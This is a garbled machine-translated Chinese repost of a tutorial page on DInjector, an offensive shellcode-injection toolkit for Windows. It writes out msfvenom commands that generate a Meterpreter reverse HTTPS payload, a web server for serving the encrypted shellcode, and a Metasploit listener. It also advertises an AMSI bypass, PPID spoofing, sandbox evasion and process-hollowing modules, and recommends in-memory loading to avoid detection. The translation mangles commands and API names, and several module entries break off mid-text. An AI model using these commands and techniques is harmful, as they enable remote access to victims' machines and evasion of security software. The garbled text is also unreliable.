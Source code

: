 # DInjector:封装在 D/Invoke 武器化 DLL 中的外壳代码注入技术的集合

> 原文：<https://kalilinuxtutorials.com/dinjector/>

[![](img/56a1489b4d8b1eb05e353200607461a0.png)](https://blogger.googleusercontent.com/img/a/AVvXsEh9vfiGxWLVHrF9dV78Rro4FVv-NXFbmvvTWYDlPyFebZP5QTQ7cHIr5lgt8K491po9jFG5dUB0VEaCrMD8NXjqYyuvSE-AsLLAZZ30Iej9QxTbuXYkbP4wC3olNadxkvUNUcu8csnZ7ItpeJz-hHPvld0mC1dziyRwzuhvh06m4V4sW3Zq0sO0-oAF=s633)

**DInjector** repository 是我为各种**外壳代码注入**技术积累的代码片段，使用了由@TheWover 和@FuzzySecurity 开发的奇妙的 D/Invoke API。

特点:

*   完全移植到 D/Invoke API
*   可以从 URL 调用或以 base64 作为参数传递的加密有效负载
*   内置 AMSI 旁路
*   PPID 欺骗和阻止非微软动态链接库(从 TikiTorch 偷来的，写在这里)
*   沙盒检测和规避

ℹ️根据我的测试，DInvoke NuGet 包本身被许多商业 AV/EDR 解决方案标记为通过 costura 嵌入的资源。Fody(或类似的方法)，所以我把它缩小了一点，并从源代码中包括进来，以实现更好的 OpSec。

**免责声明。**本库中包含的所有信息仅用于教育和研究目的。作者对该工具的任何非法使用不负任何责任。

**用法**

*   在 VS 中编译项目。
*   为你最喜欢的 C2 生成一个外壳代码:

**~ $ MSF venom-p windows/x64/meter preter/reverse _ winhttps LHOST = 10 . 10 . 13 . 37 LPORT = 443 exit func = thread-f raw-o shellcode . bin**

加密外壳代码:

**~ $ encrypt . py shellcode . bin-p ' pass w0 rd！'-o enc**

提供加密的外壳代码并准备好 C2 监听器:

**~ $ sudo python 3-m http . server 80
~ $ sudo MSF console-qx "使用 exploit/multi/handler；设置有效负载 windows/x64/meter preter/reverse _ winhttps；设置 lhost 10 . 10 . 13 . 37；设置 lport 443 设置 EXITFUNC 线程；跑"**

*   使用 PowerShell 下载底座加载 DInjector.dll as`**System.Reflection.Assembly**`并从内存中执行它。

我不建议将程序集放在磁盘上，因为它很可能会被标记。

必需的全局参数:

| 名字 | 示例值 | 描述 |
| --- | --- | --- |
| `**/am51**` | **`True`，`False`** | 应用 AMSI 旁路 |
| `**/sc**` | `**http://10.10.13.37/enc**` | 设置外壳代码路径(可以从 URL 加载或作为 Base64 字符串) |
| `**/password**` | `**Passw0rd!**` | 设置密码来解密外壳代码 |

**模块**

OpSec 安全考虑基于我个人的使用经验和一些测试。

**功能指针**

**module _ name:' function pointer '
描述:
分配一个 RW 内存区，将 shell 代码复制到其中
并像函数一样执行。
调用:
ntdll . dll:
1:' ntaallocatevirtualmemory(PAGE _ READ write)'
2:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
op sec _ safe:false
引用:
' http://disbaux es . UPC . es/code/two-basic-ways-to-run-and-test-shellcode/'
' https://www . ired . team/offensive-security/offensive**

**功能点 V2**

**module _ name:' function pointer v2 '
描述:
在字节数组上设置 RX，并像函数一样执行它。
调用:
ntdll . dll:
1:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
op sec _ safe:false
引用:
' https://jhalon . github . io/utilizing-sys calls-in-cs harp-1/'
' https://jhalon . github . io/utilizing-sys calls-in-cs harp-2/'
' https://github . com/jhalon**

**剪贴板指针**

**module _ name:' clipboard pointer '
描述:
将 shellcode 字节复制到剪贴板，
在上面设置 RX 并像函数一样执行。
调用:
user 32 . dll:
1:' open clipboard '
2:' SetClipboardData '
3:' close clipboard '
ntdll . dll:
1:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
op sec _ safe:true
引用:**

**当前线程**

**module _ name:' current thread '
描述:
将外壳代码注入当前进程。
通过 NtCreateThreadEx 执行线程。
调用:
ntdll . dll:
1:' ntaallocatevirtualmemory(PAGE _ READ write)'
2:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
3:' NtCreateThreadEx '
4:' NtWaitForSingleObject '
5:' NtFreeVirtualMemory(shell code)'
op sec _ safe:false
引用:
' https://github . com/XingYun**cs’****

**currentthreaduid**

**module _ name:' currentthreaduid '
描述:
将外壳代码注入当前进程。
通过 EnumSystemLocalesA 执行线程。
调用:
kernel 32 . dll:
1:' heap create '
2:' EnumSystemLocalesA '
RP CRT 4 . dll:
1:' UuidFromStringA '
op sec _ safe:false
引用:
' https://blog . sunggwanchoi . com/eng-uuid-shellcode-execution/'
' https://github . com/choi SG/uuidid**

**远程线程**

**module _ name:' remote thread '
参数:
/pid:1337
描述:
将外壳代码注入现有的远程进程。
通过 NtCreateThreadEx 执行线程。
调用:
ntdll . dll:
1:' NtOpenProcess '
2:' ntaallocatevirtualmemory(PAGE _ READ write)'
3:' NtWriteVirtualMemory(shell code)'
4:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
5:' NtCreateThreadEx '
op sec _ safe:false
引用:
'https://github.com/S3cur**

**RemoteThreadDll**

**module _ name:' remote thread dll '
参数:
/PID:1337
/dll:msvcp _ win . dll
描述:
将外壳代码注入到现有的远程进程中
覆盖其已加载的模块之一。文本部分。
通过 NtCreateThreadEx 执行线程。
调用:
ntdll . dll:
1:' NtOpenProcess '
2:' NtWriteVirtualMemory(shellcode)'
3:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
4:' NtCreateThreadEx '
op sec _ safe:–
引用:
' https://www . net ero 1010-secu**r**itylab.com/eavsion/alternative-process-injection'**

**远程线程上下文**

**module _ name:' remotethreadcontext '
参数:
/image:C:\ Windows \ System32 \ svchost . exe
/ppid:31337
/block dll:True
描述:
将外壳代码注入到新产生的远程进程中。
通过 SetThreadContext 执行线程。
调用:
kernel 32 . dll:
1:' InitializeProcThreadAttributeList '
2:' UpdateProcThreadAttribute(block dll)'
3:' UpdateProcThreadAttribute(PPID)'
4:' CreateProcessA '
ntdll:dll:
1:' ntallocatevrtualmemory(PAGE _ READ write)'
2:' NtWriteVirtualMemory(shell code)'
3:'调用**

**ProcessHollow**

**module _ name:' process hollow '**
**参数:
/image:C:\ Windows \ System32 \ svchost . exe
/ppid:31337
/block dll:True
描述:
将外壳代码注入到新生成的远程进程中。
通过 NtResumeThread 执行线程(外壳代码挖空)。
调用:
kernel 32 . dll:
1:' InitializeProcThreadAttributeList '
2:' UpdateProcThreadAttribute(block dll)'
3:' UpdateProcThreadAttribute(PPID)'
4:' CreateProcessA '
ntdll . dll:
1:' NtQueryInformationProcess '
2:' NtReadVirtualMemory(ptrImageBaseAddress)'
3:' ntprotectvirtualmtreal**

[**Download**](https://github.com/snovvcrash/DInjector)